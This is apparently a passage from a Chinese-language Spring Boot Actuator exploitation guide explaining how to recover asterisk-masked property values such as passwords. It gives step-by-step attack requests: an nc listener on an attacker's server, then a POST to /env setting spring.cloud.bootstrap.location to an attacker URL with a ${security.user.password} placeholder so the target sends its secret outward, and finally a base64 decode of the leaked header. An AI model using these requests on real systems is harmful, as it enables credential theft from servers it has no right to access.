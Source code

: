 spring 1.x

    POST /refresh
    Content-Type: application/x-www-form-urlencoded

spring 2.x

    POST /actuator/refresh
    Content-Type: application/json

##### 步骤五： 解码属性值

正常的话，此时 nc 监听的服务器会收到目标发来的请求，其中包含类似如下
`Authorization` 头内容：

    Authorization: Basic dmFsdWU6MTIzNDU2

将其中的 `dmFsdWU6MTIzNDU2`部分使用 base64 解码，即可获得类似明文值
`value:123456`，其中的 `123456` 即是目标星号 \* 脱敏前的属性值明文。

获取被星号脱敏的密码的明文 (方法三)
-----------------------------------

> 访问 /env 接口时，spring actuator 会将一些带有敏感关键词(如
> password、secret)的属性名对应的属性值用 \* 号替换达到脱敏的效果

#### 利用条件：

-   通过 POST `/env` 设置属性触发目标对外网指定地址发起任意 http 请求
-   目标可以请求攻击者的服务器（请求可出外网）

#### 利用方法：

> 参考 UUUUnotfound 提出的
> [issue-1](https://github.com/LandGrey/SpringBootVulExploit/issues/1)，可以在目标发外部
> http 请求的过程中，在 url path 中利用占位符带出数据

##### 步骤一： 找到想要获取的属性名

GET 请求目标网站的 `/env` 或 `/actuator/env` 接口，搜索 `******`
关键词，找到想要获取的被星号 \* 遮掩的属性值对应的属性名。

##### 步骤二： 使用 nc 监听 HTTP 请求

在自己控制的外网服务器上监听 80 端口：

    nc -lvk 80

##### 步骤三： 触发对外 http 请求

-   `spring.cloud.bootstrap.location`
    方法（**同时适用于**明文数据中有特殊 url 字符的情况）：

spring 1.x

    POST /env
    Content-Type: application/x-www-form-urlencoded

    spring.cloud.bootstrap.location=http://your-vps-ip/?=${security.user.password}

